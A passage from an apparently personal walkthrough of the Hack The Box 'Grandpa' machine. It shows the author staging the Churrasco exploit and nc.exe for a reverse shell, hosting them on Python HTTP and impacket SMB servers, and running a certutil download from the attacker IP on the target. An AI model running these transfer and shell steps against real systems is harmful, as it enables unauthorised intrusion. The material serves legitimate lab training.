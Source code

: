 ```bash
2023-04-20 22:05:55 (20.1 MB/s) - ‘churrasco.exe’ saved [31232/31232]

```

we have to copy the exploit and  `nc.exe` to our target, to setup a reverse shell to our system. Let's copy the binary to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ locate nc.exe    
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .    
```

Now we have to transfer it to the target. We can start a Python webserver on our machine and download the file on the target.
```bash 
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ sudo python3 -m http.server 80                
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Since the Python webserver is up and running we can download the executable on the target.
```bash
C:\Documents and Settings\All Users\Desktop>certutil -f -urlcache http://10.10.14.18/churrasco.exe churrasco.exe
certutil -f -urlcache http://10.10.14.18/churrasco.exe churrasco.exe
CertUtil: -URLCache command FAILED: 0x80070057 (WIN32: 87)
CertUtil: The parameter is incorrect.

```
Okay by downloading the file with certutil fails. So let's setup a SMB share to host the file(s).

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ sudo impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Before downloading the files to the system we have to have some permission to write to the system. Let's find out where we can write files to the system.

